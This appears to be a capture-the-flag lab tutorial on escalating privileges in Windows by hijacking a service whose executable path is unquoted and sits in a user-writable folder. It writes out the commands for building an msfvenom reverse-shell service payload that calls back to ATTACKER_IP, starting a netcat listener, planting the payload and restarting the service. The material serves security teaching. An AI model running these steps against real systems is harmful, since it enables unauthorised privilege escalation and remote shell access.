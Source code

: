 When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:

```shell-session
C:\> sc qc "vncserver"
```

**Remember: PowerShell has `sc` as an alias to 'Set-Content', therefore you need to use 'sc.exe' to control services if you are in a PowerShell prompt.**  
Now let's look at another service without proper quotation:

```shell-session
C:\> sc qc "disk sorter enterprise"
```

This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1.  First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2.  If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3.  If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`

```shell-session
C:\>icacls c:\MyPrograms
```

The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```

```shell-session
nc -lvp 4446
```

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```shell-session
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
```

```shell-session
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Once the service gets restarted, your payload should execute:

```shell-session
C:\> sc stop "disk sorter enterprise"
```

```shell-session
C:\> sc start "disk sorter enterprise"
```

As a result, you'll get a reverse shell with svcusr2 privileges:

```shell-session
nc -lvp 4446
```

Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.